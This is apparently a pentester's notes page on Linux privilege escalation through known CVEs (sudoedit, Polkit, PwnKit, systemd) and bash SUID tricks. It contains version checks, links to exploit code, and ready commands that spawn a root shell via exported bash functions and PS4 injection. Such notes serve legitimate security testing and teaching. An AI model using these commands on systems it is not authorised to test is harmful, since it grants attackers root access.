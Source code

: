 ```yaml
---
title: Linux Userspace Privilege Escalation Exploits
---
```


[[notes/linux/privilege-escalation]] trough userspace exploits.

List installed packages and their versions.

~~~ bash
dpkg -l || rpm -qa
~~~

# Sudoedit Heap Overflow CVE-2021-3156

Affects all `sudo` legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1.
Exploitation does not require membership in the `sudo` / `wheel` group.

Check.

~~~ bash
sudoedit -s '\' `perl -e 'print "A" x 65536'`
sudo -s '\\' `perl -e 'print "A" x 65536'`
~~~

# Polkit CVE-2021-3560

Affects polkit >= 0.113 and >= 0.105-26 on Debian.

The exploit [CVE-2021-3560.py](http://web.archive.org/web/20230729182550/https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py) was successfully tested against polkit 0.115-6 on Cent OS 8.

Check version.

~~~ bash
grep -aF polkitd- /usr/lib/polkit-1/polkitd
~~~

References:

- [Privilege escalation with polkit: How to get root on Linux with a seven-year-old bug](http://web.archive.org/web/20230707035106/https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

# PwnKit CVE-2021-4034

Untested exploits:

- [blasty-vs-pkexec.c](http://web.archive.org/web/20221006105914/https://haxx.in/files/blasty-vs-pkexec.c)
- [blasty-vs-pkexec2.c](http://web.archive.org/web/20221006105959/https://haxx.in/files/blasty-vs-pkexec2.c)

References:

- [PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](http://web.archive.org/web/20221006110059/https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

# sudo systemctl status

Affects Systemd before v247.

References:

- [CVE-2023–26604](http://web.archive.org/web/20230406145953/https://scribe.rip/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)

# Bash Function with Slashes

With Bash < 4.2-048 and a SUID binary that calls another program by absolute path, create a bash function named like the path.

~~~
$ strings /usr/local/bin/suid-binary
...
/usr/sbin/service apache2 start
...
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
$ /usr/local/bin/suid-binary
~~~

# Bash PS4

With Bash < 4.4 and a SUID program evaluating/running bash scripts the `PS4` environment variable is inherited.

~~~ bash
env -i SHELLOPTS=xtrace PS4='$(bash -p)' /usr/local/bin/pwn-me
~~~
